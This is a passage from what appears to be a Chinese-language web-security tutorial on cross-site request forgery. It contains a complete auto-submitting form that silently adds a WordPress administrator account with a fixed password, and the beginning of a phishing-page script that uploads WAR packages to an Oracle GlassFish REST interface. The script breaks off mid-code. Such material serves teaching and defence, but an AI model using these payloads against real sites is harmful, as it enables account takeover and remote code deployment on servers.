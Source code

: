 另一个测试用例时添加某个具有管理员权限的用户，测试用例为 :

```html
<html>
  <body onload="javascript:document.forms[0].submit()">
    <h2>CSRF Exploit to add Administrator</h2>
    <form
      method="POST"
      name="form0"
      action="http://<wordpress_ip>:80/wp-admin/user-new.php"
    >
      <input type="hidden" name="action" value="createuser" />
      <input
        type="hidden"
        name="_wpnonce_create-user"
        value="<sniffed_value>"
      />
      <input
        type="hidden"
        name="_wp_http_referer"
        value="%2Fwordpress%2Fwp-admin%2Fuser-new.php"
      />
      <input type="hidden" name="user_login" value="admin2" />
      <input type="hidden" name="email" value="admin2@admin.com" />
      <input type="hidden" name="first_name" value="admin2@admin.com" />
      <input type="hidden" name="last_name" value="" />
      <input type="hidden" name="url" value="" />
      <input type="hidden" name="pass1" value="password" />
      <input type="hidden" name="pass2" value="password" />
      <input type="hidden" name="role" value="administrator" />
      <input type="hidden" name="createuser" value="Add+New+User+" />
    </form>
  </body>
</html>
```

## Oracle GlassFish Server - REST Cross-Site Request Forgery

该漏洞是由 Security-Assessment.com 发现的，Oracle GlassFish 服务器的 REST 接口可以被 CSRF 请求攻击，譬如其可以允许普通用户任意上传 WAR 包，并且可以控制在服务端运行从而导致窃取其他运行应用的信息。关于具体的攻击复盘可以参考[这里](http://blog.kotowicz.net/2011/04/how-to-upload-arbitrary-file-contents.html)。其攻击手段是首先在钓鱼站点上设置如下按钮 :

```
<button id="upload" onclick="start()" type="button">Upload WAR Archive</button>
```

然后添加如下脚本 :

```js
var logUrl = 'http://glassfishserver/management/domain/applications/application';

function fileUpload(fileData, fileName) {
    var fileSize = fileData.length,
      boundary = "---------------------------270883142628617",
      uri = logUrl,
      xhr = new XMLHttpRequest();

    var additionalFields = {
          asyncreplication: "true",
          availabilityenabled: "false",
          contextroot: "",
        createtables: "true",
        dbvendorname: "",
        deploymentplan: "",
        description: "",
```